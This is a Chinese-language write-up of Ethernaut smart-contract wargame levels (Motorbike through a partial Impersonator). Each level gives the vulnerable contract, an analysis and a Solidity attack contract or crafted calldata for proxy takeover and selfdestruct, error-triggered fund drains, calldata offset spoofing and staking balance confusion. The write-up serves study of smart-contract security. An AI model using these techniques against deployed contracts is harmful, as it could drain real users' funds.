` Engine `有两个slot，slot0存放address类型，slot1存放uint256类型；

` Initializable `有一个slot，slot0中存放两个bool类型，均是检测是否已经初始化；

也就是说，要是` Engine `的slot0中的最右边两个比特均为0，那就可以利用我们自己的钱包再初始化一次；


果然是0，那后面就简单了，调用` initialize() `将我们自己设置为升级者，然后调用` upgradeToAndCall() `替换我们自己实现的销毁合约并执行即可；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

contract Exp {
    function Attack() public {
        selfdestruct(payable(msg.sender));
    }
    // 注释即可，用来算calldata的
    // 0xf28adc4d
    function getHash() public pure returns (bytes memory){
        return abi.encodeWithSignature("Attack()");
    }
}
```

首先初始化：


销毁合约：


但此时提交会失败，查看交易记录却显示调用了销毁，但是合约还在：




经过[搜索](https://github.com/Ching367436/ethernaut-motorbike-solution-after-decun-upgrade/)，是以太坊经过Dencun升级后，调用` selfdestruct() `仅会转走ETH，不会销毁合约，**除非合约的创建和销毁在同一条交易记录中**；

解决的方法总结下来就是通过计算instance合约创建的地址，然后通过自动化题目创建、代理合约创建、攻击、销毁、提交题目一条龙（由于这并不是本题的主要目的，且之前题目有过如何计算合约创建地址，就不演示了）；


## Level_26.DoubleEntryPoint

要求：

> 部署一个Bot，找到` CryptVault `的bug并且保护其` DET `不被扫空;

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/access/Ownable.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

interface DelegateERC20 {
    function delegateTransfer(address to, uint256 value, address origSender) external returns (bool);
}

interface IDetectionBot {
    function handleTransaction(address user, bytes calldata msgData) external;
}

interface IForta {
    function setDetectionBot(address detectionBotAddress) external;
    function notify(address user, bytes calldata msgData) external;
    function raiseAlert(address user) external;
}

contract Forta is IForta {
    mapping(address => IDetectionBot) public usersDetectionBots;
    mapping(address => uint256) public botRaisedAlerts;

    function setDetectionBot(address detectionBotAddress) external override {
        usersDetectionBots[msg.sender] = IDetectionBot(detectionBotAddress);
    }

    function notify(address user, bytes calldata msgData) external override {
        if (address(usersDetectionBots[user]) == address(0)) return;
        try usersDetectionBots[user].handleTransaction(user, msgData) {
            return;
        } catch {}
    }

    function raiseAlert(address user) external override {
        if (address(usersDetectionBots[user]) != msg.sender) return;
        botRaisedAlerts[msg.sender] += 1;
    }
}

contract CryptoVault {
    address public sweptTokensRecipient;
    IERC20 public underlying;

    constructor(address recipient) {
        sweptTokensRecipient = recipient;
    }

    function setUnderlying(address latestToken) public {
        require(address(underlying) == address(0), "Already set");
        underlying = IERC20(latestToken);
    }

    /*
    ...
    */

    function sweepToken(IERC20 token) public {
        require(token != underlying, "Can't transfer underlying token");
        token.transfer(sweptTokensRecipient, token.balanceOf(address(this)));
    }
}

contract LegacyToken is ERC20("LegacyToken", "LGT"), Ownable {
    DelegateERC20 public delegate;

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }

    function delegateToNewContract(DelegateERC20 newContract) public onlyOwner {
        delegate = newContract;
    }

    function transfer(address to, uint256 value) public override returns (bool) {
        if (address(delegate) == address(0)) {
            return super.transfer(to, value);
        } else {
            return delegate.delegateTransfer(to, value, msg.sender);
        }
    }
}

contract DoubleEntryPoint is ERC20("DoubleEntryPointToken", "DET"), DelegateERC20, Ownable {
    address public cryptoVault;
    address public player;
    address public delegatedFrom;
    Forta public forta;

    constructor(address legacyToken, address vaultAddress, address fortaAddress, address playerAddress) {
        delegatedFrom = legacyToken;
        forta = Forta(fortaAddress);
        player = playerAddress;
        cryptoVault = vaultAddress;
        _mint(cryptoVault, 100 ether);
    }

    modifier onlyDelegateFrom() {
        require(msg.sender == delegatedFrom, "Not legacy contract");
        _;
    }

    modifier fortaNotify() {
        address detectionBot = address(forta.usersDetectionBots(player));

        // Cache old number of bot alerts
        uint256 previousValue = forta.botRaisedAlerts(detectionBot);

        // Notify Forta
        forta.notify(player, msg.data);

        // Continue execution
        _;

        // Check if alarms have been raised
        if (forta.botRaisedAlerts(detectionBot) > previousValue) revert("Alert has been triggered, reverting");
    }

    function delegateTransfer(address to, uint256 value, address origSender)
        public
        override
        onlyDelegateFrom
        fortaNotify
        returns (bool)
    {
        _transfer(origSender, to, value);
        return true;
    }
}
```

### 分析

题目很长，首先一个一个合约的看：

> ` interface DelegateERC20 `:有一个` delegateTransfer(to,value,originSender) `接口函数；
>
> ` interface IDetectionBot `:有一个` handleTransaction(user,msgData) `接口函数，也是我们需要实现的函数；
>
> ` interface IForta `:Forta的接口函数，有3个函数需要实现；
>
> 
>
> ` contract Forta `:
>
> 映射` usersDetectionBots `存放我们实现的Bot地址；
>
> 映射` botRaisedAlerts `存放Bot发出的警告数；
>
> 方法` setDetectionBot(BotAddress) `设置并存放Bot地址；
>
> 方法` notify(user,msgData) `Bot运行` handleTransaction(user,msgData) `检查处理交易；
>
> 方法` raiseAlert(user) `增加警告数；
>
> 
>
> ` contract CryptoVault `（持有100` LGT `和100` DET `）:
>
> 通过一个` recipient `地址来构造，有一个` underlying `token（题目中说了是` DET `，后面就只写` DET `了）；
>
> 方法` setUnderlying(lastToken) `可以设置一个新token；
>
> 方法` sweepToken(token) `可以向` recipient `发送该合约所拥有的该token，但不能` sweap `token` DET `；
>
> 
>
> ` contract LegacyToken `:
>
> ERC20代币` LGT `的合约；
>
> 有一个实现` DelegateERC20 `接口的` delegate `地址，可以用来调用` delegateTransfer(to,value,originSender) `；
>
> 方法` delegateToNewContract(newContract) `用来设置新的` delegate `；
>
> 重写的` transfer `方法使用了` delegate.delegateTransfer `，注意这不是` delegatecall `，下一个合约中实现了该函数，意味着只是` originSender `转帐到` to `；
>
> 
>
> ` contract DoubleEntryPoint `:
>
> ERC20代币` DET `的合约，同时实现了` DelegateERC20 `接口的` delegateTransfer `函数；
>
> 存储着` cryptoVault `、` player `、` delegatedFrom `、` forta `的地址；
>
> 修饰器` onlyDelegateFrom() `判断sender是否为` delegateFrom `；
>
> 修饰器` fortaNotify() `调用我们自己实现的Bot检查并触发警告；
>
> 实现的` delegateTransfer `函数从` originSender `转帐到` to `；

我们所拿到的题目地址是` DoubleEntryPoint `的，首先将几个状态变量的地址都找到：

```javascript
const DETAddress = await contract.address
// 0x57a6B590b6Ef7dfF5142e661159ee35a68B1E8A4

const cryptoVaultAddress = await contract.cryptoVault()
// 0x1CFe2eff88a0dE3A6889ff9556fC00FB7b593e99

const delegateFromAddress = await contract.delegatedFrom()
const LGTAddress = delegateFromAddress
// 由于delegatedFrom = legacyToken;所以代币LGT的地址也是这个
// 0xbFf599F7b3c0c76ab0AAeDaaB554cfDFe547D3C1

const fortaAddress = await contract.forta()
// 0xA2A5aBdB66b8F3E01277Ac43268328b4e0EB71a5
```

通过上面的这些地址，再深入看看各个合约的内部信息：

```javascript
// CryptoVault合约的sweptTokensRecipient地址，就是我们自己
await web3.eth.getStorageAt(cryptoVaultAddress, 0)
// 0x0000000000000000000000007148c25a8c78b841f771b2b2eead6a6220718390

// CryptoVault合约的underlying地址，就是DET的地址
await web3.eth.getStorageAt(cryptoVaultAddress, 1)
// 0x00000000000000000000000057a6b590b6ef7dff5142e661159ee35a68b1e8a4

// LGT代币中delegate的地址
await web3.eth.call({from: player,to: LGTAddress,data: '0xc89e4361'/*delegate()*/})
// 0x00000000000000000000000057a6b590b6ef7dff5142e661159ee35a68b1e8a4
```

> 上面最后获得delegate的地址时，为什么直接用call？
>
> 直接执行` await web3.eth.getStorageAt(LGTAddress, 0) `的结果为全0；
>
> 因为` LegacyToken `继承了` ERC20 `和` Ownable `，` slot 0 `处并不是` delegate `；
>
> 前面分别有` mapping _balances `、` mapping _allowances `、` uint256 _totalSupply `、` string _name `、` string _symbol `、` address _owner `；
>
> 根据计算，正好每个占一个slot，所以执行` await web3.eth.getStorageAt(LGTAddress, 6) `又可以拿到正确地址；

观察上面的地址，发现` LGT `代币中的` delegate `居然就是` DET `代币的地址；

再看看LGT合约中的` transfer `方法，` delegate.delegateTransfer(to, value, msg.sender); `，会直接将` DET `转给` to `；

而如果用` LGT `合约的地址作为` CryptoVault `合约中` sweapToken `方法的参数，` token.transfer() `便会执行上面的流程；

> CryptoVault.sweapToken(LGT) --> 
>
> ​    LGT.transfer() --> LGT.delegate.delegateTransfer() --> 
>
> ​        DET.delegateTransfer() --> DET._transfer()

所以，这样` CryptoVault `中的` DET `会被全部转走；

由于只有` DET.delegateTransfer() `这一步实现了` fortaNotify `，所以我们只能检测这部分的` calldata `；

` to `和` value `这两个值都可以随意更改，无法准确检测，只有` origSender `可以判断，因为此时这边的` origSender `一定是` CryptoVault `的地址；

下面开始推测发出的` calldata `，[calldata的布局](https://docs.soliditylang.org/en/v0.8.15/abi-spec.html#abi)；

调用` delegateTransfer `应该是：

```solidity
// 0x
// 9cd1a121 --> keccak(delegateTransfer(address,uint256,address))的前4个字节
// 32个字节 --> to
// 32个字节 --> value
// 0x0000000000000000000000001CFe2eff88a0dE3A6889ff9556fC00FB7b593e99 --> origSender，也就是我们需要检测的地方
```

但是，` delegateTransfer `有两个修饰器` onlyDelegateFrom `和` fortaNotify `；

修饰器并不是函数调用，不需要calldata，其中` _; `只是单纯的将代码移植到后面来；

所以` onlyDelegateFrom `无需关注，但` fortaNotify `需要注意一下，它其中调用了` notify `，并且是在这传入了调用` notify() `的` calldata `，然后方法中调用了` handleTransaction `方法，此时这边才是我们需要的` msg.data `；

> 传入执行` delegateTransfer `的calldata --> DET.delegateTransfer() --> 
>
> 传入执行` notify `的calldata --> Forta.notify() --> 
>
> 真正需要的calldata，执行` handleTransaction `的calldata --> IDetectionBot.handleTransaction()

所以这才是传入的calldata：

| 偏移 |                             数据                             |                             备注                             |
| :--: | :----------------------------------------------------------: | :----------------------------------------------------------: |
| 0x00 |                           220ab6aa                           |     keccak(handleTransaction(address,bytes))的前4个字节      |
| 0x04 |                        地址(32个字节)                        |                             user                             |
| 0x24 |                     0x00..0020(32个字节)                     | msgData的偏移(bytes的开始包括长度信息)，从自身开始算，即0x24开始，一共0x20个字节就是长度信息 |
| 0x44 |                     0x00..0064(32个字节)                     | msgData的长度，即下面的几个字段，0x4 + 0x20 + 0x20 + 0x20 = 0x64 |
| 0x64 |                           9cd1a121                           | keccak(delegateTransfer(address,uint256,address))的前4个字节 |
| 0x68 |                        地址(32个字节)                        |                              to                              |
| 0x88 |                      uint256(32个字节)                       |                            value                             |
| 0xA8 | 0x0000000000000000000000001CFe2eff88a0dE3A6889ff9556fC00FB7b593e99 |             origSender，也就是我们需要检测的地方             |
| 0xC8 |                    00..00(32-4=28个字节)                     |      填充部分，因为从偏移0x4开始的后面需要为32字节倍数       |

我们只需检测` 0x68 `处的值是否为` CryptoVault `的地址即可；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp is IDetectionBot {
    address private vault;
    constructor(address _vault){
        vault = _vault;
    }
    function handleTransaction(address user, bytes calldata) external override {
        address to;
        uint256 value;
        address originSender;

        assembly {
            to := calldataload(0x68)
            value := calldataload(0x88)
            originSender := calldataload(0xa8)
        }
        if (originSender == vault){
            Forta(msg.sender).raiseAlert(user);
        }
    }
}
```

在` Forta `中设置Bot即可；


## Level_27.Good Samaritan

要求：

> 排空Samaritan中所有coin;

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns (bool enoughBalance) {
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10 ** 6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

### 分析

看完题目，发现漏洞点很明显，即` requestDonation() `方法中的异常部分；

只要触发` NotEnoughBalance() `异常，就会调用` transferRemainder() `转出全部余额；

着重来看` coin.transfer() `：

```solidity
if (dest_.isContract()) {
    // notify contract
    INotifyable(dest_).notify(amount_);
}
```

发现要是合约与其交互，就会触发` notify(amount) `；所以我们需要接管` notify() `，使其触发` NotEnoughBalance() `异常即可；

[合约中如何Hook](https://docs.openzeppelin.com/contracts/3.x/extending-contracts#rules_of_hooks)；我们可以Hook` notify() `，使其触发异常；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp is INotifyable {
    GoodSamaritan gs;
    error NotEnoughBalance();

    constructor(address addr){
        gs = GoodSamaritan(addr);
    }

    function Attack() public {
        gs.requestDonation();
    }

    function notify(uint256 amount) external pure virtual override  {
        if (amount == 10){
            revert NotEnoughBalance();
        }
    }
}
```


## Level_28.Gatekeeper Three

要求：

> 通过守门人；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

#### 分析

##### 第一道关卡

依旧很简单，一个假的构造函数，可以直接利用` call `调用，这样` owner `就会变成Exp合约地址；

之后调用` enter() `时，` tx.origin `则为我们的钱包地址；

##### 第二道关卡

调用` getAllowance() `，然后拿到` SimpleTrick `合约中正确的` password `即可；

##### 第三道关卡

首先需要` GatekeeperThree `合约中大于0.001ETH，之后向` owner `合约中发送ETH需要失败，可以在` receive() `中使用` revert() `中来拒绝收款；


#### 攻击

1. 调用` createTrick `创建` SimpleTrick `合约，此时会初始化` password `；
2. 获得` SimpleTrick `合约地址，并且拿到正确的` password `，使` allowEntrance `为true；
3. 创建一个exp合约，调用` construct0r() `，使` owner `变成exp合约地址，同时` receive `中使用` revert `来拒绝收款；
4. 发送0.0011ETH到题目合约中；

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    GatekeeperThree public gt;
    constructor(address addr) {
        gt = GatekeeperThree(payable(addr));
    }

    function Attack(uint256 password) public  {
        gt.construct0r();
        gt.getAllowance(password);
        gt.enter();
    }

    receive() external payable { 
        revert();
    }
}

```

得到` SimpleTrick `合约地址：


获得正确的密码：


发送ETH：


部署exp合约，并Attack；


## Level_29.Switch

要求：

> 翻转开关；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Switch {
    bool public switchOn; // switch is off
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    modifier onlyOff() {
        // we use a complex data type to put in memory
        bytes32[1] memory selector;
        // check that the calldata at position 68 (location of _data)
        assembly {
            calldatacopy(selector, 68, 4) // grab function selector from calldata
        }
        require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
        _;
    }

    function flipSwitch(bytes memory _data) public onlyOff {
        (bool success,) = address(this).call(_data);
        require(success, "call failed :(");
    }

    function turnSwitchOn() public onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() public onlyThis {
        switchOn = false;
    }
}
```

#### 分析

此题需要我们将开关翻转为开，也就是需要调用` turnSwitchOn() `函数；

修饰器` onlyThis() `意味着我们只能调用` flipSwitch() `函数，且不能通过钱包调用，而是利用合约自身发出calldata来，这样` msg.sender `才是合约本身；

修饰器` onlyOff() `中有检测指定位置(在calldata的68偏移处)是否有` offSelector `，所以calldata中还需要有` turnSwitchOff() `；

所以calldata中至少得有` flipSwitch() `，` turnSwitchOff() `，` turnSwitchOn() `，下面开始构造：

| 偏移 |        数据         |                             备注                             |
| :--: | :-----------------: | :----------------------------------------------------------: |
| 0x00 |      30c13ade       |                 flipSwitch(bytes)的selector                  |
| 0x04 | 0x00...0044(32字节) | bytes memory数据的偏移，0x20(自身) + 0x20(全0) + 0x4(off) = 0x44 |
| 0x24 | 0x00...0000(32字节) |                      填充数据，随便什么                      |
| 0x44 |      20606e15       |            turnSwitchOff()的selector，必须是该值             |
| 0x48 | 0x00...0004(32字节) |     bytes memory数据的长度，由于只需调用函数，所以4字节      |
| 0x68 |      76227e12       |           turnSwitchOn()的selector，真正调用的函数           |
| 0x6c |  0x00..00(24字节)   |        填充数据，需要使除了selector外为32字节的整数倍        |


#### 攻击

发送calldata时，会出现：


此时我们只需自己添加一个` fallback `即可；


## Level_30.HigherOrder

要求：

> 成为Commander;

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```

#### 分析

我们传输的数据需要大于255才能成为Commander，可是大于255起码需要3个hex；

此时注意编译版本：` 0.6 `，这时候还没有参数的边界检查，采用的是ABICoder V1，到了` 0.8 `版本才开始使用[参数的边界检查](https://docs.soliditylang.org/en/latest/080-breaking-changes.html)；

所以我们只需要自己构造一个大于0xFF的值作为calldata就行了；

```solidity
function getCalldata() public returns (bytes memory){
    return abi.encodeWithSignature("registerTreasury(uint8)", 0xFFFF);
}
// 0x211c85ab000000000000000000000000000000000000000000000000000000000000ffff
```


#### 攻击

记得加个` fallback() `函数后再点击` At Address `，不然直接输入calldata会失败；


查看值确实大于0xFF，调用` claimLeadership() `即可：


## Level_31.Stake

要求：

> 排空合约中的余额；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Stake {

    uint256 public totalStaked;
    mapping(address => uint256) public UserStake;
    mapping(address => bool) public Stakers;
    address public WETH;

    constructor(address _weth) payable{
        totalStaked += msg.value;
        WETH = _weth;
    }

    function StakeETH() public payable {
        require(msg.value > 0.001 ether, "Don't be cheap");
        totalStaked += msg.value;
        UserStake[msg.sender] += msg.value;
        Stakers[msg.sender] = true;
    }
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
        Stakers[msg.sender] = true;
        return transfered;
    }

    function Unstake(uint256 amount) public returns (bool){
        require(UserStake[msg.sender] >= amount,"Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success, ) = payable(msg.sender).call{value : amount}("");
        return success;
    }
    function bytesToUint(bytes memory data) internal pure returns (uint256) {
        require(data.length >= 32, "Data length must be at least 32 bytes");
        uint256 result;
        assembly {
            result := mload(add(data, 0x20))
        }
        return result;
    }
}
```

#### 分析

这是一个质押合约，其中可以质押ETH和一个与ETH等价1:1的ERC20代币WETH，我们需要将其中所有余额排空；

同时还需要满足：

> * 质押合约中ETH余额需要大于0；
> * 总的质押数需要大于合约余额；
> * 成为质押者且余额为0；

` StakeETH() `函数中，没什么大问题；

` StakeWETH() `函数中，需要质押数额大于0.001ether，随后调用` 0xdd62ed3e `即` allowance(address,address) `查看授予的余额，但此处只接收了额度，但没有接收是否正确执行；随后调用` 0x23b872dd `即` transferFrom(addressA,addressB,uint256) `转账，扣的是` allowance[msg.sender] `中的值，实际是A转给B，这边貌似也没什么问题；

` Unstake() `函数中，将WETH和ETH混为一谈，只要用户有质押，就可以取ETH或者WETH，那么我们就可以质押WETH，然后换成ETH全部取出来；

所以我们需要做的就是：

1. 写一个攻击合约，利用其给题目合约授权尽可能多的` WETH `，并质押1` WETH `，同时质押0.0011` ETH `（模拟真实环境中受害者）；
2. 用自己的账户授权WETH，然后质押0.0011WETH；
3. 取回质押的ETH；


#### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    Stake stake;
    address public WETH;

    constructor(address _stake, address _weth){
        stake = Stake(_stake);
        WETH = _weth;
    }

    function VictimStake() public payable {
        // 授权WETH
        (bool success, ) = address(WETH).call(abi.encodeWithSignature("approve(address,uint256)", address(stake), 100 ether));
        // 质押WETH
        stake.StakeWETH(1 ether);
        // 质押ETH
        stake.StakeETH{value:0.0011 ether}();
    }
}
```

获得WETH合约的地址：


使用Exp合约授权、质押1WETH和0.0011ETH：


用自己钱包给合约授权，质押0.0011WETH，并取出余额：


此时发现题目没过关，重新审查题目，需要合约ETH余额大于0，只需修改Exp合约，质押0.0011ETH改为0.0012就行，留最后0.0001在上面即可；


## Level_32.Impersonator

要求：

> 使任何人可以打开门；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "openzeppelin-contracts-08/access/Ownable.sol";

// SlockDotIt ECLocker factory
contract Impersonator is Ownable {
    uint256 public lockCounter;
    ECLocker[] public lockers;

    event NewLock(address indexed lockAddress, uint256 lockId, uint256 timestamp, bytes signature);

    constructor(uint256 _lockCounter) {
        lockCounter = _lockCounter;
    }

    function deployNewLock(bytes memory signature) public onlyOwner {
        // Deploy a new lock
        ECLocker newLock = new ECLocker(++lockCounter, signature);
        lockers.push(newLock);
        emit NewLock(address(newLock), lockCounter, block.timestamp, signature);
    }
}

contract ECLocker {
    uint256 public immutable lockId;
    bytes32 public immutable msgHash;
    address public controller;
    mapping(bytes32 => bool) public usedSignatures;

    event LockInitializated(address indexed initialController, uint256 timestamp);
    event Open(address indexed opener, uint256 timestamp);
    event ControllerChanged(address indexed newController, uint256 timestamp);

    error InvalidController();
    error SignatureAlreadyUsed();

    /// @notice Initializes the contract the lock
    /// @param _lockId uinique lock id set by SlockDotIt's factory
    /// @param _signature the signature of the initial controller
    constructor(uint256 _lockId, bytes memory _signature) {
        // Set lockId
        lockId = _lockId;

        // Compute msgHash
        bytes32 _msgHash;
        assembly {
            mstore(0x00, "\x19Ethereum Signed Message:\n32") // 28 bytes
            mstore(0x1C, _lockId) // 32 bytes
            _msgHash := keccak256(0x00, 0x3c) //28 + 32 = 60 bytes
        }
        msgHash = _msgHash;

        // Recover the initial controller from the signature
        address initialController = address(1);
        assembly {
            let ptr := mload(0x40)
            mstore(ptr, _msgHash) // 32 bytes
            mstore(add(ptr, 32), mload(add(_signature, 0x60))) // 32 byte v
            mstore(add(ptr, 64), mload(add(_signature, 0x20))) // 32 bytes r
            mstore(add(ptr, 96), mload(add(_signature, 0x40))) // 32 bytes s
            pop(
                staticcall(
                    gas(), // Amount of gas left for the transaction.
                    initialController, // Address of `ecrecover`.
                    ptr, // Start of input.
                    0x80, // Size of input.
                    0x00, // Start of output.
                    0x20 // Size of output.
                )
            )
            if iszero(returndatasize()) {
                mstore(0x00, 0x8baa579f) // `InvalidSignature()`.
                revert(0x1c, 0x04)
            }
            initialController := mload(0x00)
            mstore(0x40, add(ptr, 128))
        }

        // Invalidate signature
        usedSignatures[keccak256(_signature)] = true;

        // Set the controller
        controller = initialController;

        // emit LockInitializated
        emit LockInitializated(initialController, block.timestamp);
    }

    /// @notice Opens the lock
    /// @dev Emits Open event
    /// @param v the recovery id
    /// @param r the r value of the signature
    /// @param s the s value of the signature
    function open(uint8 v, bytes32 r, bytes32 s) external {
        address add = _isValidSignature(v, r, s);
        emit Open(add, block.timestamp);
    }

    /// @notice Changes the controller of the lock
    /// @dev Updates the controller storage variable
    /// @dev Emits ControllerChanged event
    /// @param v the recovery id
    /// @param r the r value of the signature
    /// @param s the s value of the signature
    /// @param newController the new controller address
    function changeController(uint8 v, bytes32 r, bytes32 s, address newController) external {
        _isValidSignature(v, r, s);
        controller = newController;
        emit ControllerChanged(newController, block.timestamp);
    }

    function _isValidSignature(uint8 v, bytes32 r, bytes32 s) internal returns (address) {
        address _address = ecrecover(msgHash, v, r, s);
        require (_address == controller, InvalidController());

        bytes32 signatureHash = keccak256(abi.encode([uint256(r), uint256(s), uint256(v)]));
        require (!usedSignatures[signatureHash], SignatureAlreadyUsed());

        usedSignatures[signatureHash] = true;

        return _address;
    }
}
```

#### 分析

我们拿到手的是一个` Impersonator `合约，该合约类似一个工厂合约，可以批量生产` ECLocker `合约，并将其存在` lockers `数组中，释放` NewLock() `事件；

部署到Remix上时发现` lockers `数组中已经有了题目给我们的一个lock：


为了看到更多的信息，可以直接查看区块浏览器上的Events：


` lockAddress `：0x0000000000000000000000000861a3e8260e60f89aec61c3dadb1f3bbaacc4e2（在topic1中，因为有indexed修饰）

` lockId `：0x539

` timestamp `：0x67c2b8bc

` signature `：0x1932cb...00001b（第3行的` 0x60 `代表的是在整个bytes中的偏移，第4行的` 0x60 `代表的是长度）

先记录下来，后面可能有用，但给的这个合约貌似不能使任何人都能开门，下面来分析` ECLocker `合约；

先看构造函数，很复杂：

```solidity
// Set lockId
lockId = _lockId;
```

设置` lockid `；

```solidity
// Compute msgHash
bytes32 _msgHash;
assembly {
    mstore(0x00, "\x19Ethereum Signed Message:\n32") // 28 bytes
    mstore(0x1C, _lockId) // 32 bytes
    _msgHash := keccak256(0x00, 0x3c) //28 + 32 = 60 bytes
}
msgHash = _msgHash;
```

计算` msgHash `，将` \x19Ethereum Signed Message:\n32 `一共28字节存储在内存` 0x00 `开始的位置（和[EIP-191](https://eips.ethereum.org/EIPS/eip-191)一样）；然后将` lockid `一共32个字节接着存在后面，因为` 0x1c `就是` 28 `，之后将整个数据计算keccak，存在` msgHash `中；

```solidity
// Recover the initial controller from the signature
address initialController = address(1);
```

初始化` initialController `为地址` 0x1 `；

```solidity
assembly {
    let ptr := mload(0x40)
    mstore(ptr, _msgHash) // 32 bytes
    mstore(add(ptr, 32), mload(add(_signature, 0x60))) // 32 byte v
    mstore(add(ptr, 64), mload(add(_signature, 0x20))) // 32 bytes r
    mstore(add(ptr, 96), mload(add(_signature, 0x40))) // 32 bytes s
    pop(
        staticcall(
            gas(), // Amount of gas left for the transaction.
            initialController, // Address of `ecrecover`.
            ptr, // Start of input.
            0x80, // Size of input.
            0x00, // Start of output.
            0x20 // Size of output.
        )
    )
    if iszero(returndatasize()) {
        mstore(0x00, 0x8baa579f) // `InvalidSignature()`.
        revert(0x1c, 0x04)
    }
    initialController := mload(0x00)
    mstore(0x40, add(ptr, 128))
}
```

指针` ptr `指向内存偏移` 0x40 `处，将` _msgHash `存入其中，然后分别在后面的3个32字节的偏移处存放` v `、` r `、` s `；

此时的内存图：

| 偏移 |                             数据                             |
| :--: | :----------------------------------------------------------: |
| 0x00 |         "\x19Ethereum Signed Message:\n32" + lockId          |
| 0x20 |                 上面0x00-0x1f中未存下的数据                  |
| 0x40 | msgHash = keccak("\x19Ethereum Signed Message:\n32" + lockId) |
| 0x60 |                              v                               |
| 0x80 |                              r                               |
| 0xa0 |                              s                               |

```solidity
assembly {
    pop(
        staticcall(
            gas(), // Amount of gas left for the transaction.
            initialController, // Address of `ecrecover`.
            ptr, // Start of input.
            0x80, // Size of input.
            0x00, // Start of output.
            0x20 // Size of output.
        )
    )
}
```

